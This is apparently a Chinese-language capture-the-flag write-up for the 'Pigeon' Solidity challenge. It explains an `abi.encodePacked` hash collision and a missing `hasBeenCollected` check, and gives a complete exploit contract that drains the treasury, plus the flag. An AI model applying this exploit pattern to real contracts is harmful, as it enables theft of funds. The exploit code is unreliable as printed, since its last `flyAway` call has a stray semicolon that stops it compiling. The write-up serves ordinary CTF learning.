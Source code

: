 ## 解题思路

- 目标是清空 Pigeon 的余额，使得攻击者持有不少于 34 ether（初始为 5 ether）
- `Pigeon.flyAway()` 可以获得 `treasury[codeName]` 数量的 ether
- 漏洞点在于 `code` 和 `name` 均为动态类型 `string`，因此有 `abi.encodePacked("a", "bc") == abi.encodePacked("ab", "c")`，同时 `codeName = keccak256(abi.encodePacked(code, name))`，从而可以冒领其它 Pigeon 的 `treasury`
- 可以先调用 `Pigeon.becomeAPigeon()`，`flyAway()` 获得 5 ether
- 随后，调用 `Pigeon.task()` 增加 `taskPoints` 以通过 `Pigeon.promotion()` 晋级，从而能冒领下一等级 Pigeon 的 `treasury`
    - `task()` 需要提供一个不是 Pigeon 的地址，`taskPoints` 增加的值取决于指定地址的余额。尽管有 `hasBeenCollected` 的记录，但并没有对其进行检查，因此使用 `Pigeon` 实例的地址即可

### Exploit

```js
pragma solidity 0.8.17;

interface IPigeon {
    function becomeAPigeon(string memory, string memory) external returns (bytes32);
    function task(bytes32, address, uint256) external;
    function promotion(bytes32, uint256, string memory, string memory) external;
    function flyAway(bytes32, uint256) external;
}

contract Hack {
    function exploit(address instance) external {
        IPigeon pigeon = IPigeon(instance);
        bytes32 codeName = keccak256(abi.encodePacked("Numbuh5"));
        pigeon.becomeAPigeon("Numbu", "h5");
        pigeon.flyAway(codeName, 0);
        pigeon.task(codeName, instance, instance.balance);
        pigeon.promotion(codeName, 1, "Numbu", "h3");

        codeName = keccak256(abi.encodePacked("Numbuh3"));
        pigeon.flyAway(codeName, 1);
        pigeon.task(codeName, instance, instance.balance);
        pigeon.promotion(codeName, 2, "Numbu", "h1");

        pigeon.flyAway(keccak256(abi.encodePacked("Numbuh1"));, 2);
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {}
}
```

### Flag

> SEE{c00_c00_5py_squ4d_1n_act10n_9fbd82843dced19ebb7ee530b540bf93}